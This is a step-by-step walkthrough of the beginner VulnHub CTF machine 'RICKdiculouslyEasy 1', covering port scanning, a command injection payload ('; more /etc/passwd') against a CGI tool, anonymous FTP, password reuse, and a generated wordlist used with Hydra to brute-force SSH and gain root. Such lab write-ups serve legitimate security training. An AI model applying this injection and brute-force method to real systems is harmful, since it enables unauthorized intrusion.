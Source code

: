## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.png)
![](Assets/2.1.png)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous
> 22 -> ssh
> 80 -> Apache httpd 2.4.27
> 9090 -> Cockpit webservice
> 13337 -> unknown
> flag (10 pt) => total 10 points
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.png)
> passwords/ directory
> icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/4.png)
> FLAG.txt
> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/5.png)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html and page source code
![](Assets/6.png)
![](Assets/7.png)
> password > winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/8.png)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/9.png)
> /cgi-bin/root_shell.cgi
> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/10.png)
> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/11.png)
![](Assets/12.png)
> Vulnerable to command injection
![](Assets/13.png)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd
![](Assets/14.png)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/15.png)
> logged in
![](Assets/16.png)
> ftp://192.168.1.10 > Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.png)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.png)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.png)
> Didn't work
![](Assets/20.png)
> Worked for user 'Summer'
> Got flag (10 pt) => total 50 points
![](Assets/21.png)
> password for unzipping journal.txt.zip is in safe_password.jpg
![](Assets/22.png)
> Pull jpg file in host machine
![](Assets/23.png)
> Got safe password
![](Assets/24.png)
> Got Flag (20 pt) => total 70 points
![](Assets/25.png)
![](Assets/26.png)
> Used flag in journal.txt as argument for safe
> Got next flag (20 pt) => total 90 points
> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.png)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.png)
![](Assets/29.png)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.png)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.png)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
